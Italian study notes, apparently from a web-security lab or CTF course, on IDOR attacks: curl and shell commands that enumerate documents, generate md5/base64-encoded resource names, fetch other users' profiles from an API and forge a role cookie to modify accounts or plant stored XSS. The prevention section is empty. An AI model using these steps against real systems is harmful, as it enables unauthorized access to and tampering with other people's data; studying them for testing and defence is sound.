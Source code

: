 anche i nomi delle risorse, eventualmente mascherati dietro hash md5, magari hanno una struttura che li rende prevedibili.

### enumerazione delle risorse

```shell
$ curl -s "http://178.62.68.209:30080/documents.php" | grep 'href="/documents/'

curl -s "http://178.62.68.209:30080/documents.php" | grep -oP "\/documents.*?.pdf"

```

### enumerazione di nomi di risorse codificate

Potrebbe essere che il nome della risorsa sia codificata, anche se alla base e' un numero progressivo (e' questo che resta problematico!).
In questo caso stiamo generando i possibili nomi di risorse da 1 a 10, mimando questo comportamento `CryptoJS.MD5(btoa(uid)).toString()` emerso da una analisi del frontend. L'obiettivo e' generare possibili nomi di risorse che rispecchiano lo stesso schema.

```shell
$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

per un comportamneto `encodeURIComponent(btoa(uid))` usiamo invece

```shell
$ for i in {1..10}; do echo -n $i | base64 -w 0 | jq -sRr @uri; done
```

### IDOR in API non sicure (information disclosure)

In api non sicure e' possibile ottenere risorse a cui non si e' abilitati o che a bloccare e' solo il frontend. Per esempio su una GET del profilo utente

```shell
$ curl 'http://138.68.166.146:31119/profile/api.php/profile/1'
```

se non correttamente implementata si possono ottenere anche altri profili facendo una semplice enumerazione

### CHAIN DI IDOR

E' possibile sfruttare una o piu' vulnerabilita di tipo IDOR per ottenere l'accesso alle risorse volute.

In questa GET possiamo vedere che l'unica forma di autenticazione e' il cookie.

```shell
$ curl 'http://138.68.166.146:31119/profile/api.php/profile/1' -H 'Cookie: role=employee'
```

possiamo ottenere l'uuid di altri utenti e modificarli, usando nella richiesta il cookie necessario che non cambia in base all'utente! O anche inserire una Stored-XXS in qualche campo del profilo.

### Prevenzione
